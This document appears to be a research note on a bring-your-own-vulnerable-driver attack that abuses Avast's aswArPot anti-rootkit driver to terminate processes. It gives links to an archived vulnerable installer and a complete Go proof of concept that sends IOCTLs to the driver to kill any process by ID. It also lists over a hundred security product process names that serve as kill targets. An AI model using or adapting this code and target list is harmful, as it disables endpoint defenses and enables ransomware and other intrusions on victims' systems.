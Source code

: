 Research - BYOVD Avast! Aswarpot  

https://www.bleepingcomputer.com/news/security/hackers-abuse-avast-anti-rootkit-driver-to-disable-defenses/
https://www.trendmicro.com/en_us/research/22/e/avoslocker-ransomware-variant-abuses-driver-file-to-disable-anti-Virus-scans-log4shell.html  
https://cybersecuritynews.com/10-year-old-flaws-with-avast-and-avg/  

Related CVEs  
CVE-2022-26522  
CVE-2022-26523  
CVE-2021-40539

Avast download  
https://www.dell.com/community/en/conversations/virus-spyware/avast-12/647f65f2f4ccf8a8de2c25a3?msockid=14050a922f30675b240c1fa02e9d665e  
https://web.archive.org/web/20170201000000*/http://files.avast.com/iavs9x/avast_free_antivirus_setup_offline.exe  

POC - https://github.com/timwhitez/killProcessPOC/blob/main/aswarpot.go
```  
package main

import (
	"fmt"
	"golang.org/x/sys/windows"
	"os"
	"strconv"
	"unsafe"
)

func main() {
	if len(os.Args) != 2 {
		fmt.Println("./device.exe pid")
		return
	}

	if os.Args[1] == "-h" {
		fmt.Println("./device.exe pid")
		return
	}

	var volumename = fmt.Sprintf("\\\\.\\aswSP_ArPot2")
	hVolume, _ := windows.CreateFile(windows.StringToUTF16Ptr(volumename), 0xc0000000, 0, nil, windows.OPEN_EXISTING, 0x80, 0)

	//var local_10 []byte
	var local_1c uint32
	windows.DeviceIoControl(hVolume, 0x7299c004, nil, 4, nil, 0, &local_1c, nil)

	volumename = fmt.Sprintf("\\\\.\\aswSP_Avar")
	local_c, _ := windows.CreateFile(windows.StringToUTF16Ptr(volumename), 0xc0000000, 0, nil, windows.OPEN_EXISTING, 0x80, 0)

	pid, _ := strconv.Atoi(os.Args[1])
	processID := uint32(pid)
	var local_2c uint32
	windows.DeviceIoControl(local_c, 0x9988c094, (*byte)(unsafe.Pointer(&processID)), 4, nil, 0, &local_2c, nil)

	windows.CloseHandle(hVolume)
	windows.CloseHandle(local_c)

}
```  

## Security Process Names  
```  
ERAAgent.exe
efwd.exe
SophosSafestore64.exe
PEFService.exe
mfefw.exe
mfemms.exe
mfewc.exe
McDiReg.exe
ProtectedModuleHost.exe
msmpeng.exe
ssdvagent.exe
avp.exe
swc_service.exe
bccavsvc.exe
psuaservice.exe
TmCCSF.exe
coreserviceshell.exe
repux.exe
vapm.exe
cylancesvc.exe
avpsus.exe
sbamtray.exe
sophoslivequeryservice.exe
epwd.exe
sophosmtrextension.exe
sophoscleanup.exe
iptray.exe
sentinelservicehost.exe
endpointbasecamp.exe
macompatsvc.exe
sepWscSvc64.exe
epab_svc.exe
mcsagent.exe
sophosfilescanner.exe
aswtoolssvc.exe
mfemactl.exe
avpsus.exe
avpui.exe
mcupdatemgr.exe
McAWFwk.exe
mfewch.exe
mfevtps.exe
McCSPServiceHost.exe
McPvTray.exe
MMSSHOST.exe
sophosui.exe
avastui.exe
paui.exe
bcc.exe
psuamain.exe
tesvc.exe
coreframeworkhost.exe
RepUtils.exe
updaterui.exe
cptrayui.exe
savservice.exe
SBAMSvc.exe
sophossafestore.exe
epam_svc.exe
sdcservice.exe
hostedagent.exe
idafserverhostservice.exe
sentinelhelperservice.exe
cetasvc.exe
macmnsvc.exe
sepagent.exe
responseservice.exe
mbcloudea.exe
SophosCleanM64.exe
easervicemonitor.exe
mfeann.exe
SophosNtpService.exe
ekrn.exe
MsMpEng.exe
QcShm.exe
mfeatp.exe
mfehcs.exe
mcshield.exe
Launch.exe
MclnstruTrack.exe
MfeAVSvc.exe
avastsvc.exe
ntrtscan.exe
svcgenerichost.exe
psanhost.exe
swi_service.exe
clientmanager.exe
repmgr.exe
tmlisten.exe
cptraylogic.exe
savapi.exe
vstskmgr.exe
wrsa.exe
efrservice.exe
scanhost.exe
sophosfimservice.exe
hostedagent.exe
SentinelAgentWorker.exe
cloudendpointservice.exe
logwriter.exe
SentinelUl.exe
dsa-connect.exe
mbamservice.exe
smcgui.exe
endpoint agent tray.exe
mctray.exe
SophosHealth.exe
eguiProxy.exe
agentsvc.exe
ModuleCoreService.exe
mfeesp.exe
mfeensppl
mfetp.exe
delegate.exe
McUICnt.exe
alsvc.exe
notifier.exe
sspservice.exe
pccntmon.exe
swi_fc.exe
ccsvchst.exe
remediationservice.exe
tmcpmadapter.exe
cpda.exe
savadminservice.exe
VipreNis.exe
ds_monitor.exe
dsa.exe
sbpimsvc.exe
sophososquery.exe
hmpalert.exe
sentinelagent.exe
sophos ui.exe
klnagent.exe
sentinelstaticenginescanner.exe
wscommunicator.exe
masvc.exe
sfc.exe
fsagentservice.exe
mcsclient.exe
sophosfs.exe
avwrapper.exe
```  

